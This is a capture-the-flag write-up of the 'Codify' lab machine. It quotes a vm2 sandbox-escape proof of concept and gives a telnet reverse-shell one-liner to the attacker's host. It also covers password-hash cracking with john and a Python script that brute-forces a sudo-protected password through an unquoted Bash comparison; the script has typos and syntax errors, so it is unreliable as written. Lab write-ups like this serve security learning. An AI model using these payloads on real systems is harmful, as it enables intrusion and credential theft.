

# Codify

### Difficulty:

Easy

### Tools used:

- Nmap - network scan
- john -  password cracking

Always refer to the help section if you are unsure of how to use the tool or are unfamiliar with how a flag works.

## Walkthrough

I initiated with a simple nmap scan to see what we had. As is customary, I checked port 80 since it's typically where we need to start. I observed that the webpage had a field to test some codes, and I speculated that the vulnerability might be there. To proceed, I needed to identify what they used to determine if any vulnerabilities or security flaws existed. I began by attempting some broken codes to observe the responses and noted some errors. Despite trying some directory traversal, I didn't find anything particularly useful.



I walked around through the pages ‘til I found something useful. When I reached the 'About us' page, I noticed that they use a library named 'vm2' for code virtualization.


I opened [vm2 github page](https://github.com/patriksimek/vm2/) and went directly to issues and security tabs to see what could lead us to exploiting this. 


Found [many security](https://github.com/patriksimek/vm2/security) flaws with sandbox escape title. So I thought it’s exactly what I’m looking for. Opened some of them and chose to try [this one](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244).

This is the code provided in the PoC:

```jsx
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};

const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('touch pwned');
}
`

console.log(vm.run(code));
```

Next, I modified the `execSync` parameter to obtain a reverse shell. I opened a netcat session and attempted various types found at [revshell](https://www.revshells.com/). After a few attempts resulting in errors, I successfully obtained a shell with the following command: `TF=$(mktemp -u);mkfifo $TF && telnet <my_ip> <my_port> 0<$TF | bash 1>$TF`.

Gotcha, I’m in! I tested a few commands to verify everything was working fine. Subsequently, I upgraded my terminal—I've already shared some methods in previous write-ups.


As it was a webpage the first thing we can do is going to the `/var/wwww/` and see what we’ve got. We found the “code” page which was the one we exploited to get here and also a contacts page which had a `.db` file. So, we tried to read the data inside it using `sqlite`.

As it was a webpage, the first thing we did was navigate to `/var/www/` to explore what we've got. We found the “code” page, which was the one we exploited to get here, and also a “contacts” page containing a `.db` file. Therefore, we attempted to read the data inside it using `SQLite`.


We found a user table with a user named “joshua”. At this point, we knew this machine had a local user with the same name — Running `cat /etc/passwd`. The “contacts”page resembled a ticket system, and within the database, we discovered the hash of a password associated with the user. Consequently, we needed to take some action with it.

.png)

Initially, we needed to determine the type of hash. After searching for “$2a$ hash”, I found out it was a bcrypt hash.


So I tried to crack it with `john` and that was it, we got the password.


As I know that the user is always dumb enough to use the same password everywhere I also tried to use it to login in the local user. And guess what?

It worked, so we’re able to get the user flag.


As is my usual practice upon gaining access to a user, I used `sudo -l` to check what commands the user could run with root privileges. I discovered a script named “mysql-backup.sh”. To better understand its behavior, we attempted to run it.


Unfortunately, we discovered that we couldn't run it at the moment. Now, we need to find a way to leverage this script to escalate privileges and gain root access.


So I opened the script to see what it does. 


It doesn’t seems to do anything wrong. Here I tried to run some of those lines to see if it has anything interesting — I got stuck in this step for some hours, no way this is a easy machine from now on.

A friend of mine pointed out that the issue lay in the line `if [[ $DB_PASS == $USER_PASS ]];`. It appears that when comparing without quotes in the right-hand side using double square brackets **`[[`**, Bash performs pattern matching instead of treating it as a string. This means that if you include a **`*`** when checking the password, it will always be considered True because **`*`** matches any string.

To correct this, the comparison should be written as `if [[ $DB_PASS == "$USER_PASS" ]];`. If you're unfamiliar with how this works, you can check out [this wiki](https://mywiki.wooledge.org/BashPitfalls#if_.5B.5B_.24foo_.3D_.24bar_.5D.5D_.28depending_on_intent.29). My friend mentioned that he had a script capable of brute-forcing the password due to this flaw. Although I won't explain it, I encourage you to take a few minutes to understand how it works as homework; it's quite straightforward if you have basic programming knowledge.

```bash
import string
import subproccess

def check_password(p):
	command = f"echo '{p}*' | sudo /opt/scripts/mysql-backup.sh"
	result = subprocess.run(command, shell=True, stdout=subproccess.PIPE, stderr=subproccess.PIPE, text=True)
	return "Password confirmed!" in result.stdout

charset = string.ascii_letters + string.digits
password = ""
is_password_found = False

while not is_password_found:
	for char in charset:
		if check_password(password + char)
			password += char
			print(password)
			break
	else:
		is_password_found = True
```

Executing the script will output the results of the password brute force process, and the last output will reveal the found password. With this password in hands, we can attempt to escalate to root.


Then, you can just get your flag and go home.


**NOTE**: Before reaching the final step with the script, I attempted numerous strategies with the databases until I hit a point of frustration. Figuratively speaking, I felt like smashing my head against the wall. In times of struggle, I made the decision to seek help from someone with more experience in CTF.

**LESSON LEARNED**: Sometimes you encounter tasks that seem impossibly hard, and you might get stuck. There will be moments of self-blame for not finding the right path or overlooking hints, especially on a self-proclaimed **EASY** machine. However, it's crucial never to give up. Learning is challenging, and sometimes you may need a bit of guidance from others or search online if someone has shared a similar step. Strive to find the solution on your own, but when you're truly stuck, it's okay to seek help to save time and preserve your sanity.
